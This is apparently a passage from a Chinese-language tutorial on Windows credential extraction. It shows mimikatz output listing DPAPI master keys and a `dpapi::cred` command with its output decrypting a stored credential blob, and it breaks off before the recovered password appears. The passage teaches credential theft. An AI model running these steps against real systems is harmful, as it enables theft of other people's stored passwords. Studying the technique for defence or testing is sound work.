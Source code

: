 ```console
  * MasterKey : 82355294e567a47527246f27be711123bd1a03c3faff9cd21c0531cc7bf5cba0363a12366a64a1853d889f10828265646329feb14c92e2d6a9b95a6b64029c84
  * sha1(key) : 1b14f9a9f6075470cd1de67cdfea63e5787ed0bf
  [00000003]
  * GUID      : {b38ac866-4d4a-4c36-a406-a3c4ca1d8314}
  * Time      : 2023-11-24 14:26:42
  * MasterKey : 3c5509ef5d2092496afc864744215690b8391b88548c9d7e565886b90c491cd9d25be0f13c2127eff8f57270c9baccb63ba49c86d1c143abd5062c651f737c70
  * sha1(key) : a52ec4f4053e1cec48d8d9d1c5fe2486e590b06b
  [00000004]
  * GUID      : {52771d12-761e-43e8-a30d-8c868b34f454}
  * Time      : 2023-11-24 15:00:37
  * MasterKey : 1e12db5656f9a3a8a032d5c4bed34a130ced9703ad489b059dd27593141e00bb11596c4612b706786591da8c759967e9d75c4f64a3b1398b636bddeadc3378e2
  * sha1(key) : f73e089b0369d8257beeb1b1b2b87491edc81a65

```

> 注：`273001c6-c88c-422a-aecb-daa6f950f8d0` 和 `52c3460d-2e8b-4764-957c-57185d4d62b2` 对应的 MasterKey 都可以解密凭证，因为这两个都是该用户的 MasterKey 文件：`%APPDATA%\Microsoft\Protect\<UserSID>\<MasterKeyFile>`。

最后使用 Masterkey 从文件中解密凭证，得到明文密码：

```console
mimikatz # dpapi::cred /in:84BD531FDD20A7ED510558FA8768BA20 /masterkey:6beeec39772b606a7ac31f190d3c5cab56e00bd0bef7fe898cc826b12930a402b3163877d3a4d9aadafc2457a31ab2b35522b711c2512156db940ddf350c27f7
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {52c3460d-2e8b-4764-957c-57185d4d62b2}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      :


  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : cbc61bdb2a8cda88dafb2c090aaf64b6c8edfc5f32a134839f083fa469a95c7f
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 3c157c9d67b4e62952b3f8b72d841a35cff4d012e46c2c8f91e4e21af8a91e45
  dwDataLen          : 000000f0 - 240
  pbData             : 3e705a067361549290c628f53ae625d3961d29c2eeba9ba24270723dc3021ad8f6bb9e29c474951492d3ae470daf715825b33652607967a9394f0d10b7e35a34c57396d41e9faba5ea89fe969a7ead9e76035dfe3aff6c2b7d6332ea0b2fec5ea2eca2ad1054808dab04d17e4a818f2fbe0aed21b3e217604f2b52e04736c77349f0455c832af7120ffb1eda7dd3b5fc6214f697564e28b2c916d8ab926ffc65571e6475ca7d746e63d4b919519970233359ef2c547f2f3422b9d4199e1f4bcc3f5d034f6d47da39469331fa31adacefaba7dd7aae4b6fb3fea8a873815336cff1c62bb60b2fdbb69647c520a01550f6
  dwSignLen          : 00000040 - 64
  pbSign             : f776ff8611228511d6c93bd259caeea4bdf66908fc9a79c6c5841d85bb340f02489972d82ca9124bf6adc48ac6c4341a2012dc070a3d6c9b1c850d29298bd4a0

Decrypting Credential:
 * volatile cache: GUID:{52c3460d-2e8b-4764-957c-57185d4d62b2};KeyHash:b53ebc9462b9cf6284f116b46d3a869091cc398f;Key:available
 * masterkey     : 6beeec39772b606a7ac31f190d3c5cab56e00bd0bef7fe898cc826b12930a402b3163877d3a4d9aadafc2457a31ab2b35522b711c2512156db940ddf350c27f7
**CREDENTIAL**
  credFlags      : 00000030 - 48
```